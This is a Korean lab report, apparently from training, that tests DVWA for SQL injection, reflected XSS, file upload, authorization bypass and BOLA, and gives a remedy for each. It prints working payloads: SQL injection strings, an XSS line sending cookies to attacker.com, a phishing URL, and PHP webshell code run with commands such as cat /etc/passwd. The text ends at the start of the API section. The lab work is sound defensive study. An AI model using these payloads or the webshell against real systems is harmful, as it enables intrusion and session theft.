- `1' or '1'='1` 구문으로 모든 사용자 정보가 출력되어 인증 우회가 가능합니다.
- `union select`, `order by`를 이용하여 Database 이름, Table 정보, Column 정보까지 조회했으며,  
  최종적으로 `users` 테이블의 계정 정보와 Password Hash 값까지 확인했습니다.
- 소스코드를 보면 `$_REQUEST['id']`로 입력값을 받아 검증 없이 SQL Query에 문자열로 직접 연결하며,  
  오류 발생 시 `mysqli_error()`를 통해 DB 에러 메시지가 그대로 노출됩니다.

```php
$id = $_REQUEST[ 'id' ];                                          // 입력값 검증 없이 그대로 수신
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; // 입력값을 SQL Query에 직접 연결
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query)
    or die('<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>'); // DB 에러 메시지 외부 노출
```

**판단 : 취약** — 실제 환경이었다면 관리자 계정 탈취, 개인정보 유출, 데이터 변조 등으로 이어질 수 있습니다.

---

## 대응 방안

### 입력값 검증 수행

- 사용자 입력값에 대해 숫자, 문자열, 길이 등을 검증하여 비정상적인 SQL 구문이 삽입되지 않도록 제한합니다.

```php
$id = $_REQUEST['id'];

// 숫자 형식만 허용 — 문자열/특수문자 포함 시 즉시 차단
if (!is_numeric($id)) {
    die("유효하지 않은 입력값입니다.");
}
```

#### 핵심 효과

- 기본적인 SQL Injection 공격을 사전에 차단합니다.

---

### Prepared Statement 사용

- SQL Query와 사용자 입력값을 분리하여 입력값이 SQL 문법으로 해석되지 않도록 처리합니다.

```php
$id = $_REQUEST['id'];

// SQL Query 구조와 입력값을 분리 — '?'에 값을 바인딩하므로 입력값이 SQL 문법으로 해석 불가
$stmt = $conn->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("s", $id); // 입력값을 문자열 파라미터로 바인딩 — 특수문자가 쿼리 구조를 변경하지 못함
$stmt->execute();
$result = $stmt->get_result();
```

#### 핵심 효과

- SQL Injection을 원천적으로 방지합니다.

---

### 특수문자 필터링

- 작은따옴표(`'`), 주석(`--`, `#`), UNION, OR 등 공격에 자주 사용되는 구문을 제한합니다.

```php
$id = $_REQUEST['id'];

// 작은따옴표, 주석, UNION 등 SQL Injection에 사용되는 패턴 차단
if (preg_match('/[\'\";\-\-\#]|union|select|or|and/i', $id)) {
    die("허용되지 않는 문자가 포함되어 있습니다.");
}
```

#### 핵심 효과

- 인증 우회 및 정보 조회 공격을 방지합니다.

---

### 에러 메시지 노출 차단

- SQL 오류 발생 시 DB 에러 메시지를 사용자에게 직접 출력하지 않도록 설정합니다.
- 에러는 서버 로그에만 기록하고 사용자에게는 일반적인 안내 메시지만 출력합니다.

```php
$result = mysqli_query($conn, $query);
if (!$result) {
    error_log("DB Error: " . mysqli_error($conn)); // 에러 내용은 서버 로그에만 기록 — 외부 노출 차단
    die("요청을 처리할 수 없습니다.");              // 사용자에게는 일반 메시지만 출력
}
```

#### 핵심 효과

- 공격자가 DB 구조 및 에러 내용을 통해 추가 공격에 활용하는 것을 차단합니다.

---

### 최소 권한 원칙 적용

- DB 계정에 필요한 최소 권한만 부여하고 관리자 계정을 직접 사용하지 않도록 설정합니다.

#### 핵심 효과

- 침해 발생 시 피해 범위를 최소화합니다.

---

## 4.2. XSS (Reflected)

| 항목 | 내용 |
|---|---|
| 취약 코드 | XSR (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/xss_r/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - XSS (Reflected) 관련 항목 (p.711 ~ 714) |

### 취약점 개요

**점검 내용**

- 웹 애플리케이션 내 악성 스크립트가 다른 사용자의 브라우저에서 실행되는 취약점 존재 여부를 점검합니다.

**점검 목적**

- 사용자 입력값을 검증하여 세션 탈취, 악성 코드 삽입 등 악의적인 스크립트 실행을 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.711 ~ 714)

- 본 실습에서는 DVWA의 Low 단계에서 XSS (Reflected) 취약점을 대상으로 사용자 입력값이  
  서버 응답에 그대로 반사되어 악성 스크립트가 실행되는지 확인하여 XSS 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 XSS 관련 항목(p.711~714)과 연계하여 점검하였습니다.

---

**보안 위협**

- 사용자 입력값에 대한 필터링이 없을 경우, 공격자는 사용자 입력값 내 악의적인 스크립트(JavaScript, VBScript, ActiveX, Flash 등)를 삽입하여  
  사용자의 쿠키(세션)를 탈취하거나 피싱 사이트로 유도하는 등의 악의적인 공격을 수행할 수 있습니다.
- Reflected XSS의 경우 스크립트가 삽입된 URL을 피해자에게 전달하여 클릭을 유도하며,  
  클릭 즉시 브라우저에서 스크립트가 실행되어 세션 탈취 및 피싱 공격으로 이어질 수 있습니다.

---

### 판단 기준

#### 양호

- 사용자 입력값에 대해 검증 및 필터링이 이루어져, 악의적인 스크립트가 실행되지 않는 경우

#### 취약

- 사용자 입력값에 대한 검증 및 필터링이 이루어지지 않으며, HTML 코드가 입력 및 실행되는 경우

---

## 점검 절차

1. 정상 입력 동작 확인
2. 기본 스크립트 태그 삽입 및 실행 여부 확인
3. 쿠키 탈취 스크립트 삽입 및 실행 여부 확인
4. 이벤트 핸들러를 이용한 우회 시도
5. 피싱 이메일을 통한 악성 URL 전달 시나리오 실증

---

## 취약점 검증 및 공격 수행

### 실습 화면

- DVWA의 XSS (Reflected) 화면이며, 이름을 입력하면 입력값이 페이지에 그대로 출력되는 구조입니다.


---

### 정상 동작 확인

- 정상적인 문자열 입력 시 동작을 확인하기 위해 아래 값을 입력했습니다.

```
alice
```


- 입력한 값이 `Hello alice` 형태로 페이지에 그대로 출력됩니다.
- 소스코드를 보면 사용자가 입력한 값이 HTML에 그대로 삽입됩니다.

```php
echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
```

- 입력값에 대한 검증이나 인코딩 처리가 전혀 없습니다.

---

### 기본 스크립트 삽입 확인

- HTML 상에 렌더링되는 입력창에 스크립트 구문을 삽입하여 실행되는지 확인하기 위해 아래 값을 입력했습니다.

```html
<script>alert(1)</script>
```


- 실제로 실행되는 HTML은 아래와 같은 형태가 됩니다.

```html
<pre>Hello <script>alert(1)</script></pre>
```

- 실행 결과 `1` 값이 담긴 alert 팝업이 정상적으로 실행되는 것을 확인했습니다.
- 입력값이 HTML 인코딩 없이 그대로 페이지에 포함되어 스크립트가 실행됩니다.

---

### 쿠키 탈취 스크립트 삽입 확인

- 세션 쿠키 탈취 공격이 가능한지 확인하기 위해 아래 값을 입력했습니다.

```html
<script>alert(document.cookie)</script>
```


- 실행 결과 현재 세션의 쿠키 정보인  
  `PHPSESSID=faad6e25cd7d64a768440dc0cd62c2f4; security=low` 값이 alert 팝업으로 출력됩니다.
- XSS 취약점으로 피해자의 세션 쿠키 탈취가 가능합니다.
- 실제 공격 환경에서는 `alert` 대신 아래와 같이 공격자 서버로 쿠키를 전송하는 코드를 삽입합니다.

```html
<script>document.location='http://attacker.com:8888/?c='+document.cookie</script>
```

---

### 이벤트 핸들러를 이용한 우회 확인

- `<script>` 태그 외에도 이벤트 핸들러를 통한 스크립트 실행이 가능한지 확인하기 위해 아래 값을 입력했습니다.

```html

```


- 실행 결과 이미지 로딩 실패 이벤트(`onerror`)가 발생하면서 `XSS` 문자열이 담긴 alert 팝업이 실행되는 것을 확인했습니다.
- `<script>` 태그가 필터링되는 환경에서도 이벤트 핸들러를 이용한 우회 공격이 가능합니다.

---

### 피싱 이메일을 통한 악성 URL 전달 시나리오 실증

- XSS (Reflected) 취약점은 단순 스크립트 실행에서 끝나지 않고,  
  악성 URL을 이메일로 전달하는 피싱 공격과 결합하여 더 큰 피해를 유발할 수 있습니다.
- 이를 실증하기 위해 공격자가 피싱 이메일을 발송하고 피해자가 링크를 클릭하는 시나리오를 구성했습니다.

#### 피싱 이메일 작성

- 공격자는 쿠키 탈취 스크립트가 포함된 악성 XSS URL을 이메일 링크에 삽입하여 발송합니다.

```
http://192.168.11.36/DVWA/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D%27http%3A%2F%2F192.168.11.36%2Fcookie%3F%27%2Bdocument.cookie%3Cscript%3E
```


---

#### 피싱 이메일 수신

- 피해자의 이메일 수신함에 피싱 메일이 도착한 것을 확인했습니다.


---

#### 피해자 링크 클릭

- 피해자가 이메일 내 링크를 클릭하면 브라우저에서 악성 URL 확인 팝업이 표시됩니다.
- 팝업에는 쿠키 탈취 스크립트가 포함된 전체 URL이 노출됩니다.


---

#### 쿠키 전송 결과 확인

- 피해자가 링크 확인 팝업에서 확인을 클릭하면 Burp Suite HTTP history에 해당 요청이 기록됩니다.


- HTTP history #1483 항목에서 피해자 브라우저가 DVWA XSS URL로 GET 요청을 전송한 것을 확인했습니다.
- 요청 URL에 쿠키 탈취 스크립트(`%3Cscript%3Edocument.location%3D...`)가  
  그대로 포함되어 있으며, 피싱 링크 클릭으로 인해 XSS가 실행되었습니다.
- Request 탭의 Cookie 헤더에 `PHPSESSID=faad6e25cd7d64a768440dc0cd62c2f4; security=low` 값이 포함되어 있으며,  
  실제 공격에서 XSS 스크립트가 정상 동작할 경우 이 쿠키 값이 탈취 대상이 됩니다.
- 실제 공격 환경에서 공격자 서버가 동작 중이라면 `document.location` 리다이렉트를 통해  
  해당 쿠키 값이 공격자 서버로 전송되어 세션 하이재킹 공격으로 이어질 수 있습니다.

---

## 취약점 분석

- 입력값이 별도의 인코딩이나 필터링 없이 HTML 응답에 그대로 포함됩니다.
- 소스코드를 보면 `$_GET['name']`으로 입력값을 받아 인코딩 없이 HTML에 직접 출력하며, `X-XSS-Protection` 헤더도 비활성화된 상태입니다.

```php
  header ("X-XSS-Protection: 0");  // 브라우저 XSS 필터 비활성화 — 브라우저 자체 방어 제거
  
  if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
      echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';  // 입력값 인코딩 없이 HTML에 직접 출력 — 스크립트 실행 가능
  }
```

- `<script>`, 이벤트 핸들러(`onerror`) 등 다양한 벡터를 통해 스크립트 실행이 가능한 상태이며, `document.cookie`를 통한 세션 쿠키 노출도 확인되었습니다.

**판단 : 취약** — 실제 환경이었다면 세션 탈취, 개인정보 유출, 피싱 공격으로 이어질 수 있습니다.

---

## 대응 방안

### 입력값 검증 및 필터링(HTML 엔티티 변환) 적용

- 크로스사이트 스크립팅 공격에 사용되는 특수문자에 대해 입력값 검증 및 필터링 처리 로직을 서버 사이드에서 구현합니다.

| 변경 전 | 변경 후 |
|---------|---------|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&quot;` |
| `'` | `&#x27;` |
| `&` | `&amp;` |

```php
// 사용자 입력값의 특수문자를 HTML 엔티티로 변환 — 스크립트 태그가 HTML로 해석되지 않음
function escapeHtml($input) {
    return htmlspecialchars($input, ENT_QUOTES | ENT_HTML5, 'UTF-8', false);
}
```

#### 핵심 효과

- 스크립트 태그가 HTML 태그로 해석되지 않고, 문자열로 해석되어 실행이 차단됩니다.

---

### 화이트리스트 방식 HTML 코드 처리

- 부득이하게 HTML 코드를 사용해야 하는 경우 화이트리스트 방식을 적용하여 허용된 HTML 코드만 처리합니다.

#### 핵심 효과

- 허용되지 않은 태그 및 스크립트 삽입 시도를 사전에 차단합니다.

---

### 웹 방화벽(WAF) 필터링 룰셋 적용

- 웹 방화벽에서 웹 태그 및 스크립트 관련 특수문자 필터링 룰셋을 적용하여 추가적인 방어선을 확보합니다.

#### 핵심 효과

- 서버 사이드 필터링이 우회되더라도 추가 방어선을 통해 공격을 차단할 수 있습니다.

---

### 쿠키 보안 옵션 설정

- 세션 탈취 방지를 위해 쿠키에 `HttpOnly`, `Secure`, `SameSite` 옵션을 설정하여 쿠키가 외부에 노출되지 않도록 보호합니다.

```php
setcookie("PHPSESSID", session_id(), [
    'httponly' => true,   // JavaScript에서 쿠키 접근 차단 — XSS로 쿠키 탈취 불가
    'secure'   => true,   // HTTPS에서만 쿠키 전송 — 네트워크 도청 차단
    'samesite' => 'Strict' // 외부 사이트 요청 시 쿠키 전송 차단 — CSRF 방지
]);
```

#### 핵심 효과

- XSS 취약점이 존재하더라도 쿠키 탈취를 통한 세션 하이재킹을 방지할 수 있습니다.

---

## 4.3. File Upload

| 항목 | 내용 |
|---|---|
| 취약 코드 | FU (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/upload/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - File Upload 관련 항목 (p.744 ~ 752) |

### 취약점 개요

**점검 내용**

- 파일 업로드 기능을 통해 서버에서 실행 가능한 파일(Server Side Script)이 업로드되는지 여부를 점검합니다.
- 업로드된 파일이 서버 내에서 실행 가능한지 여부를 확인합니다.

**점검 목적**

- 악성 파일 업로드를 사전에 차단합니다.
- 업로드된 파일의 실행을 방지하여 서버 침해를 예방합니다.
- 웹쉘 업로드를 통한 시스템 장악을 방지합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload) — 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.744 ~ 752)

---

- 본 실습에서는 DVWA의 Low 단계에서 File Upload 취약점을 대상으로 실행 가능한 PHP 파일을 직접 업로드하고  
  서버에서 정상적으로 실행되는지 확인하여 File Upload 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의  
  파일 업로드 관련 항목(p.744~752)과 연계하여 점검하였습니다.

---

**보안 위협**

- 서버에서 실행 가능한 웹쉘(Web Shell) 파일이 업로드될 경우  
  공격자가 웹쉘을 통해 서버 명령을 직접 수행할 수 있습니다.
- 업로드된 파일이 실행되면 서버 권한으로 명령 수행이 가능해지고,  
  추가적인 시스템 침해로 이어질 수 있습니다.

---

## 판단 기준

### 양호

- 업로드 파일 확장자에 대한 화이트리스트 검증 수행
- MIME 타입 검증 수행
- 업로드된 파일의 실행 제한 적용
- 업로드 경로가 웹 접근 불가능한 영역에 존재

### 취약

- 확장자 검증이 없거나 우회 가능
- MIME 타입 검증 미흡
- 업로드된 파일이 웹에서 직접 실행 가능
- 업로드 경로가 웹 루트 내부에 위치

---

## 점검 절차

1. 파일 업로드 기능 존재 여부 확인
2. 정상 파일 업로드 동작 확인
3. 실행 가능한 파일 업로드 시도
4. 업로드 경로 확인
5. 업로드된 파일 접근 및 실행 여부 확인

---

## 취약점 검증 및 공격 수행

### 실습 화면

- 다음 화면은 File Upload 취약점 실습을 할 수 있는 화면입니다.
- 업로드된 파일이 서버에 저장되고 웹에서 확인 가능한 구조입니다.


---

### WebShell 코드

- 다음 화면은 File Upload 취약점 실습을 위한 `WebShell.php` 코드입니다.
- 해당 코드는 웹 페이지에서 사용자로부터 입력을 받아  
  서버에서 명령어를 실행하는 간단한 웹쉘(Web Shell) 기능을 수행합니다.


#### 동작 흐름

1. 사용자에게 명령어 입력창(Form)을 제공합니다.
2. 사용자가 입력한 값을 GET 방식으로 전달합니다.
3. 전달된 값을 system() 함수로 실행합니다.
4. 실행 결과를 웹 페이지에 출력합니다.

#### 주요 기능

- 사용자가 입력한 명령어를 서버에서 직접 실행할 수 있습니다.
- 실행 결과가 웹 페이지에 그대로 출력됩니다.

---

### 파일 업로드

- 실습 초기 화면에서 파일선택 버튼을 클릭하여 업로드할 파일을 선택합니다.
- `/var/www/html`에서 webshell.php 파일을 선택합니다.


- 파일 선택 후 업로드 버튼을 클릭하면  
  `../../hackable/uploads/webshell.php` 경로로 업로드가 완료됩니다.


---

### 업로드된 WebShell 실행 확인

- 브라우저 URL 경로에 `http://127.0.0.1/DVWA/hackable/uploads/webshell.php`로 입력합니다.


- 이는 단순히 파일이 저장된 것이 아니라, 서버에서 해당 PHP 파일이 실제로 실행되고 있다는 의미입니다.
- 사용자가 입력한 명령어가 서버에서 그대로 실행될 수 있는 상태이므로  
  원격 명령 실행(Remote Command Execution)이 가능한 환경입니다.

---

## 명령어 실행 검증

### 시스템 계정 정보 확인

- 입력창에 다음 명령어를 입력했습니다.

```
cat /etc/passwd
```


- 결과로 리눅스의 `/etc/passwd` 파일 내용이 그대로 출력되는 것을 확인했습니다.
- 서버 내부 계정 정보가 외부에서 조회 가능한 상태입니다.
- 업로드된 웹쉘이 단순한 파일이 아니라 실제로 시스템 명령을 실행할 수 있는 상태입니다.

---

### 현재 작업 경로 확인

- 현재 웹쉘이 실행되고 있는 서버 경로를 확인하기 위해 다음 명령어를 입력했습니다.

```
pwd
```


- 결과로 `/var/www/html/DVWA/hackable/uploads` 경로가 출력되었습니다.
- 업로드된 파일이 실제 웹 루트 내부에서 실행되고 있으며,  
  웹 브라우저를 통해 직접 접근 가능한 위치에 저장되어 있습니다.
- 공격자가 악성 PHP 파일을 업로드할 경우 동일한 방식으로 서버 내부 명령 실행이 가능합니다.

---

### 실행 계정 확인

- 웹쉘이 어떤 계정 권한으로 동작하는지 확인하기 위해 다음 명령어를 입력했습니다.

```
whoami
```


- 결과로 `www-data` 계정이 출력되었습니다.
- 업로드된 웹쉘이 단순히 파일로 저장된 상태가 아니라,  
  실제 서버 권한으로 명령어를 실행할 수 있다는 점을 확인했습니다.

---

## 취약점 분석

- 실행 가능한 PHP 파일인 `webshell.php`가 별도의 차단 없이 정상적으로 업로드되었습니다.
- 소스코드를 보면 GET 파라미터로 받은 명령어를 검증 없이 `system()`으로 직접 실행하는 구조입니다.

```php
  echo 'Enter a Command:<br>';
  echo '<form action="">';
  echo '<input type=text name="cmd">';   // 사용자 입력값을 GET으로 수신
  echo '<input type="submit">';
  echo '</form>';

  if (isset($_GET['cmd'])) {
      system($_GET['cmd']);              // 입력값 검증 없이 system()으로 직접 실행 — 서버 명령어 실행 가능
  }
```

- 이 파일이 서버에서 실행됐다는 것 자체가 파일 업로드 시 확장자 검증이 전혀 없다는 증거입니다.
- 업로드된 파일은 웹 브라우저를 통해 직접 접근할 수 있었으며, 실제로 명령어 입력창이 출력되고 서버 명령이 정상적으로 실행되었습니다.
- `cat /etc/passwd`, `pwd`, `whoami` 명령을 통해 서버 내부 정보 조회와 웹 서버 권한(`www-data`)으로 명령 수행이 가능한 것을 확인했습니다.
- 업로드된 파일에 대한 확장자 검증과 실행 제한이 전혀 적용되지 않은 상태입니다.

**판단 : 취약** — 실제 환경이었다면 웹쉘 업로드를 통한 서버 침해로 이어질 수 있습니다.

---

## 대응 방안

### 확장자 화이트리스트 적용

- 업로드 가능한 파일 형식을 이미지(`jpg`, `png`, `gif`) 등 필요한 확장자로만 제한합니다.
- `php`, `jsp`, `asp`, `exe` 등 실행 가능한 파일은 업로드되지 않도록 차단합니다.

```php
  $allowed_ext = ['jpg', 'jpeg', 'png', 'gif'];
  $file_ext = strtolower(pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION));

  // 허용된 확장자 목록에 없으면 업로드 즉시 차단
  if (!in_array($file_ext, $allowed_ext)) {
      die("허용되지 않는 파일 형식입니다.");
  }
```

#### 핵심 효과

- 웹쉘 파일 업로드 자체를 사전에 차단합니다.

---

### MIME 타입 검증 수행

- 파일의 확장자만 확인하지 않고 실제 MIME 타입까지 함께 검증합니다.
- 파일명이 `image.php.jpg`처럼 위장된 경우도 탐지할 수 있도록 설정합니다.

```php
  $allowed_mime = ['image/jpeg', 'image/png', 'image/gif'];

  // 파일 내용 기반 실제 MIME 타입 확인 — 확장자 위장 우회 차단
  $file_mime = mime_content_type($_FILES['file']['tmp_name']);

  if (!in_array($file_mime, $allowed_mime)) {
      die("허용되지 않는 파일 형식입니다.");
  }
```

#### 핵심 효과

- 확장자 우회 공격을 방지할 수 있습니다.

---

### 업로드 파일 실행 제한

- 업로드된 파일이 서버에서 실행되지 않도록 설정합니다.
- 업로드 디렉토리에서는 PHP 실행 권한을 제거하거나  
  웹 서버 설정을 통해 스크립트 실행을 차단합니다.

```apache
  # 업로드 디렉토리 내 PHP 파일 실행 차단 — 웹쉘이 업로드되어도 실행 불가
  <FilesMatch "\.(php|phtml|php3|php4|php5|php7|phar)$">
      Deny from all
  </FilesMatch>
```

#### 핵심 효과

- 파일이 업로드되더라도 서버 침해를 막을 수 있습니다.

---

### 웹 루트 외부에 저장

- 업로드된 파일을 `/var/www/html`과 같은 웹 접근 가능 경로가 아닌  
  별도의 외부 디렉토리에 저장합니다.

#### 핵심 효과

- 브라우저를 통한 직접 접근을 차단할 수 있습니다.

---

### 최소 권한 원칙 적용

- 웹 서버 실행 계정의 권한을 최소화하고 중요 시스템 파일 접근 권한을 제한합니다.

#### 핵심 효과

- 침해가 발생하더라도 피해 범위를 최소화할 수 있습니다.

---

## 4.4. Authorisation Bypass

| 항목 | 내용 |
|---|---|
| 취약 코드 | AB (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/authbypass/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - Authorisation Bypass 관련 항목 (p.739~743) |

### 취약점 개요

**점검 내용**

- 서비스 제공에 필요한 사용자 입력 및 실행단계의 흐름에 대한 검증의 적절성 여부를 점검합니다.

**점검 목적**

- 서버사이드에서 적절한 검증을 통해 비정상적인 입력 및 프로세스 흐름으로 허용되지 않은 기능에 접근하는 것을 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload) — 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.739~743)

---

- 본 실습에서는 DVWA의 Low 단계에서 Authorisation Bypass 취약점을 대상으로 서버사이드 권한 검증 로직의 부재로 인해  
  일반 사용자가 관리자 전용 페이지에 접근 가능한지 확인하여 인가 우회 취약점 존재 여부를 점검했습니다.
- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드에  
  Authorisation Bypass 독립 항목은 없으며, 프로세스 검증 누락(p.739) 항목과 연계하여 점검하였습니다.

---

**보안 위협**

- 프로세스 또는 기능에 대한 접근 제어 및 검증이 미흡할 경우  
  URL 직접 접근 등 비정상적인 논리 오류를 유발하여 중요 페이지에 대한 무단 접근 및 개인정보 유출이 가능합니다.

---

## 판단 기준

### 양호

- 중요 페이지에 사용자 검증 로직이 구현되어 있어, 타 사용자의 권한 탈취 및 URL 직접 접근이 제한된 경우

### 취약

- 중요 페이지에 사용자 검증 로직이 미흡하여, 타 사용자의 권한 탈취 및 URL 직접 접근이 가능한 경우

---

## 점검 절차

1. admin 계정으로 Authorisation Bypass 페이지 정상 접근 확인
2. 로그아웃 후 gordonb 계정으로 로그인
3. gordonb 계정으로 관리자 전용 URL 직접 접근 시도
4. Burp Suite HTTP history를 통해 권한 검증 부재 확인

---

## 취약점 검증 및 공격 수행

### 실습 화면 (admin 정상 접근)

- DVWA의 Authorisation Bypass 페이지로, admin 계정으로  
  로그인한 상태에서는 정상적으로 사용자 관리 페이지에 접근할 수 있습니다.
- 페이지 상단에 "This page should only be accessible by the admin user."라는  
  문구가 명시되어 있어, 해당 페이지는 admin 전용 기능입니다.


---

### gordonb 계정 로그인

- admin 계정에서 로그아웃 후, 일반 사용자 계정인 gordonb / abc123으로 로그인했습니다.


---

### gordonb 로그인 후 메인 화면 확인

- gordonb 계정으로 로그인한 후 DVWA 메인 화면을 확인했습니다.
- 좌측 메뉴에 Authorisation Bypass 항목이 존재하지 않아,  
  클라이언트 측에서는 해당 기능에 접근할 수 없는 것처럼 보입니다.
- 그러나 이는 UI에서 숨긴 것일 뿐이며, 서버사이드 권한 검증이 없어 URL 직접 입력으로 우회가 가능합니다.


---

### URL 직접 접근을 통한 인가 우회 확인

- gordonb 계정으로 로그인한 상태에서 아래 URL을 직접 입력하여 접근을 시도했습니다.

```
http://192.168.11.36/DVWA/vulnerabilities/authbypass/
```

- 서버가 세션의 권한을 검증하지 않아 admin 전용 사용자 관리 페이지가 그대로 노출되었습니다.
- 페이지에는 Bob, Pablo, Hack, Gordon, admin 전체 사용자 정보와 Update 기능까지 표시됩니다.


---

### Burp Suite HTTP history 확인

- Burp Suite HTTP history에서 gordonb 세션으로 `get_user_data.php`에 요청이 전송됩니다.

**Request 탭**
- `GET /DVWA/vulnerabilities/authbypass/get_user_data.php`
- `Cookie: PHPSESSID=e6cd2062c8c69600284a4e60ef5e90af; security=low` — gordonb 세션

**Response 탭**
- `HTTP/1.1 200 OK` — 권한 검증 없이 정상 응답
- 전체 사용자 데이터(admin, Gordon, Hack, Pablo, Bob)가 그대로 반환됨


---

### 소스코드 확인

- View Source를 통해 PHP 소스코드를 확인한 결과, 권한 검증 로직이 존재하지 않습니다.

```php
<?php
/*
Nothing to see here for this vulnerability, have a look
instead at the dvwaHtmlEcho function in:
* dvwa/includes/dvwaPage.inc.php
*/
// Low 레벨은 권한 검증 로직이 존재하지 않아 누구든 페이지 접근 가능
?>
```

- low.php 파일 자체에 권한 검증 코드가 전혀 존재하지 않으며,  
  페이지 렌더링 함수에도 역할(role) 기반 접근 제어가 적용되어 있지 않습니다.
- 서버는 요청자의 세션 권한을 확인하지 않고 페이지를 그대로 반환하는 구조입니다.

---

## 취약점 분석

- gordonb 일반 사용자 계정으로 관리자 전용 URL에 직접 접근하여 페이지가 정상 노출되는 것을 확인했습니다.
- 서버사이드에서 세션 권한 검증을 수행하지 않아 모든 인증된 사용자가 관리자 기능에 접근 가능한 상태입니다.
- admin, Gordon, Hack, Pablo, Bob 전체 사용자 정보 및 수정 기능이 일반 사용자에게 노출되었습니다.

**판단 : 취약** — 실제 환경이었다면 개인정보 유출, 계정 정보 무단 수정, 권한 상승 공격으로 이어질 수 있는 위험한 상태입니다.

---

## 대응 방안

### 서버사이드 세션 기반 권한 검증 구현

- 모든 보호 페이지에 요청자의 세션 권한을 검증하는 로직을 서버사이드에서 구현합니다.

```php
session_start();
if (!isset($_SESSION['user']) || $_SESSION['user']['role'] !== 'admin') {
    header('HTTP/1.1 403 Forbidden');
    header('Location: /DVWA/index.php');
    exit;
}
```

#### 핵심 효과

- URL을 직접 입력하더라도 서버가 세션 권한을 검증하여 비인가 접근이 차단됩니다.

---

### RBAC(역할 기반 접근 제어) 적용

- 사용자 역할(role)에 따라 접근 가능한 기능을 분리하고,  
  각 기능에 대한 권한 매트릭스를 정의하여 서버사이드에서 일관되게 적용합니다.

#### 핵심 효과

- 권한 없는 사용자의 모든 관리자 기능 접근이 체계적으로 차단됩니다.

---

### 클라이언트 사이드 접근 제어 의존 금지

- UI에서 메뉴 항목을 숨기거나 버튼을 비활성화하는 방식은 서버사이드 검증을 대체할 수 없습니다.
- 반드시 서버사이드에서 권한 검증을 수행해야 합니다.

#### 핵심 효과

- URL 직접 접근, Burp Suite 패킷 변조 등 클라이언트 우회 시도가 원천 차단됩니다.

---

### 권한 없는 접근 시도 로깅 및 알림 설정

- 비인가 접근 시도에 대한 로그를 기록하고 관리자에게 알림을 발송하여 이상 행위를 탐지합니다.

#### 핵심 효과

- 공격 시도를 조기에 탐지하고 추가 대응이 가능합니다.

---

## 4.5. API Security (BOLA)

| 항목 | 내용 |
|---|---|
| 취약 코드 | API (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/api/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - API Security (BOLA) 관련 항목 (p.733 ~ 734) |

### 취약점 개요

**점검 내용**

- 타 사용자의 권한을 탈취하여 민감한 데이터 접근 및 수정 가능 여부를 점검합니다.

**점검 목적**

- 사용자 검증 로직을 서버 사이드에서 구현하여 비인가자로부터 악의적인 접근을 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload) — 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.733 ~ 734)

---

- 본 실습에서는 API 취약점을 대상으로, 동일 서비스에서 운영 중인  
  구버전 API(v1)와 신버전 API(v2) 간의 보안 설계 차이를 점검했습니다.
- v1 API에서 인가되지 않은 사용자 ID 열거(BOLA)와 패스워드 해시 과도 노출이 가능한지 확인하여 취약점 존재 여부를 점검했습니다.
- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 웹(Web Application) 항목 중 불충분한 권한 검증(IN)과 연계됩니다.

---

**보안 위협**

- 패킷 변조, 클라이언트 측 로직 변조 등을 통해 사용자 식별 가능한 시퀀스 데이터를 변조하여  
  타 사용자의 권한을 탈취할 경우 개인정보 유출 및 데이터 조작이 가능합니다.

---

## 판단 기준

### 양호

- 중요 페이지에 사용자 검증 로직이 구현되어 있어 타 사용자의 권한 탈취가 제한된 경우

### 취약

- 중요 페이지에 사용자 검증 로직이 미흡하여 타 사용자의 권한 탈취가 가능한 경우

---

## 점검 절차

1. DVWA API Security 페이지 접속 및 구조 확인
2. 브라우저 개발자 도구 Network 탭에서 API 엔드포인트 패턴 확인
3. v2 엔드포인트를 기반으로 구버전 v1 API 접근 시도
4. v1 API에서 사용자 ID 순차 열거 (id: 1, 2, 3)
5. 획득한 패스워드 해시를 CrackStation으로 크랙

---

## 취약점 검증 및 공격 수행

### API Security 초기 화면

